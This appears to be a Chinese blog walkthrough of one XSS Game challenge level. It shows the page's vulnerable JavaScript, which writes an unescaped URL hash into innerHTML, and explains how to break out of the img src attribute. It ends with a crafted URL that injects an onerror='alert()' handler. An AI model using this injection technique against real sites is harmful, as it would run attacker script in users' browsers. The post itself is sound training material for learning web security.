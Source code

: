 其实我在通这个系列的时候是没看这些提示信息的，一是觉得不看也能过，二是怕自己的想法被提示牵着走，这样过关也挺没劲的。嗯，类似「圣人模式」那种惆怅。  
后来总结的时候呢，发现里面确实是有一些信息的，写经验的时候还是写进来比较好，万一对一些人有帮助呢，所以我就插了个机翻，并因为经费紧张，旁白君的解读直接砍掉了:) 

// 过渡~
看得出来，这是一位吸猫癌患者:
```html
    <div class="tab" id="tab1" onclick="chooseTab('1')">Cat 1</div>
    
    <div class="tab" id="tab2" onclick="chooseTab('2')">Cat 2</div>
    
    <div class="tab" id="tab3" onclick="chooseTab('3')">Cat 3</div>
```
*index* 里非常暴躁的来了个 Cat 1 2 3，直让我菊花一紧：  

![bbox](/Image/shut_up_and_bbox.jpg)  

奈何对猫有些抗拒，看见 onclick 事件基本没什么点一下试试看的想法，那就只能看代码了：
```js
function chooseTab(name) {
    var html = "Cat " + parseInt(name) + "<br>";
    html += "<img src='/static/img/cat" + name + ".jpg' />";
    document.getElementById('tabContent').innerHTML = html;

    // Select the current tab
    var tabs = document.querySelectorAll('.tab');
    for (var i = 0; i < tabs.length; i++) {
        if (tabs[i].id == "tab" + parseInt(name)) {
            tabs[i].className = "tab active";
        } else {
            tabs[i].className = "tab";
        }
    }
    window.location.hash = name;

    // Tell parent we've changed the tab
    top.postMessage({'url': self.location.toString()}, "*");
}

```
这个方法的实现看到第三行就不用看了，已经知道在干嘛了，传进来一个数字，请求相应'数字.jpg'的图片。
```
需要注意的是通过 innerHTML 写到 div 中。而 innerHTML 方法直接写入的 <script>...</script> 并不会被执行。
```
没关系啊，有了上一关的经验，我们可以拼字符串啊。
佛死特奥富奥，你得知道个知识点：
```html
<img src='' onerror='alert()' />
<!--
    当图片加载错误的时候，就会执行 onerror 中的 alert() 方法
    对于本关
    我们只需要让他访问一个不存在的图片并让其执行 onerror='alert()' 就OK了
    你问我怎么让它执行？
    插啊，插进去不就行了吗 →_→
--> 
```
我们拼出如下URL：
```
http://www.xssgame.com/f/u0hrDTsXmyVJ/#1' onerror='alert()'
```
**用单引号截断1,使其 scr 指向'1'这个文件，并加入 onerror 事件，而因为'1'这个文件不存在，加载错误，转而执行 onerror 中的 alert() 方法。**
